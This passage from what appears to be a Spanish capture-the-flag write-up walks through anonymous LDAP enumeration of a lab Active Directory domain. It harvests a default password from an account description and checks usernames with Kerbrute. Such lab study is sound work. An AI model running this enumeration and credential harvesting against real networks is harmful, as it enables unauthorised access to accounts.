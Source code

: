 ```bash
➜  content  ldapsearch -x -b "DC=baby,DC=vl" -H ldap://10.10.88.84 "*" | grep userPrincipalName | cut -d " " -f 2 | cut -d "@" -f 1 > list.txt
➜  content cat list.txt
Jacqueline.Barnett
Ashley.Webb
Hugh.George
Leonard.Dyer
Connor.Wilkinson
Joseph.Hughes
Kerry.Wilson
Teresa.Bell
➜  content
```

- También tenemos una contraseña.

```bash
➜  content ldapsearch -x -b "DC=baby,DC=vl" -H ldap://10.10.88.84 | grep desc
description: Built-in account for guest access to the computer/domain
description: All workstations and servers joined to the domain
description: Members of this group are permitted to publish certificates to th
description: All domain users
description: All domain guests
description: Members in this group can modify group policy for the domain
description: Servers in this group can access remote access properties of user
description: Members in this group can have their passwords replicated to all
description: Members in this group cannot have their passwords replicated to a
description: Members of this group are Read-Only Domain Controllers in the ent
description: Members of this group that are domain controllers may be cloned.
description: Members of this group are afforded additional protections against
description: DNS Administrators Group
description: DNS clients who are permitted to perform dynamic updates on behal
description: Set initial password to BabyStart123!
➜  content
```

- Ahora vamos a verificar si los usuarios son válidos con la herramienta **Kerbrute** <https://github.com/ropnop/kerbrute>.

```bash
➜  content ./kerbrute userenum -d baby.vl --dc babydc.baby.vl list.txt

    __             __               __
   / /_____  _____/ /_  _______  __/ /____
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/

Version: v1.0.3 (9dad6e1) - 02/25/24 - Ronnie Flathers @ropnop

2024/02/25 17:48:38 >  Using KDC(s):
2024/02/25 17:48:38 >  	babydc.baby.vl:88

2024/02/25 17:48:38 >  [+] VALID USERNAME:	 Joseph.Hughes@baby.vl
2024/02/25 17:48:38 >  [+] VALID USERNAME:	 Connor.Wilkinson@baby.vl
2024/02/25 17:48:38 >  [+] VALID USERNAME:	 Kerry.Wilson@baby.vl
2024/02/25 17:48:38 >  [+] VALID USERNAME:	 Leonard.Dyer@baby.vl
2024/02/25 17:48:38 >  [+] VALID USERNAME:	 Teresa.Bell@baby.vl
2024/02/25 17:48:38 >  [+] VALID USERNAME:	 Jacqueline.Barnett@baby.vl
2024/02/25 17:48:38 >  [+] VALID USERNAME:	 Ashley.Webb@baby.vl
2024/02/25 17:48:38 >  [+] VALID USERNAME:	 Hugh.George@baby.vl
2024/02/25 17:48:38 >  Done! Tested 8 usernames (8 valid) in 0.189 seconds
➜  content
```
